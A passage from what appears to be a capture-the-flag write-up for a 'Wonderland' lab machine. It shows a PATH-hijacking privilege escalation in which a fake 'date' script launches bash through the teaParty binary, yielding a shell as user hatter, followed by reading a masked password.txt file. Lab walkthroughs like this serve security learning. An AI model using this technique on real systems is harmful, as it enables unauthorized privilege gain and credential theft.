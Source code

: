 ```

```

`/bin/echo -n 'Probably by ' && date `

We can use file path manipulation again, this time for `date`
Create a file with name `date`

Steps include

```

rabbit@wonderland:/home/rabbit$ cat date
#!/bin/bash
/bin/bash
```
`rabbit@wonderland:/home/rabbit$ chmod +x date`

`rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH`
```

rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ whoami
hatter
hatter@wonderland:/home/rabbit$ 
```

Now we are `hatter`

Move to `hatter` home directory. `cd /home/hatter/ `

```

hatter@wonderland:/home/hatter$ ls -al
total 28
drwxr-x--- 3 hatter hatter 4096 May 25  2020 .
drwxr-xr-x 6 root   root   4096 May 25  2020 ..
lrwxrwxrwx 1 root   root      9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 hatter hatter  220 May 25  2020 .bash_logout
-rw-r--r-- 1 hatter hatter 3771 May 25  2020 .bashrc
drwxrwxr-x 3 hatter hatter 4096 May 25  2020 .local
-rw-r--r-- 1 hatter hatter  807 May 25  2020 .profile
-rw------- 1 hatter hatter   29 May 25  2020 password.txt
```

Important file `password.txt`

```

hatter@wonderland:/home/hatter$ cat password.txt 
W**************************?
```

Let's check for `sudo permission` that `hatter` have
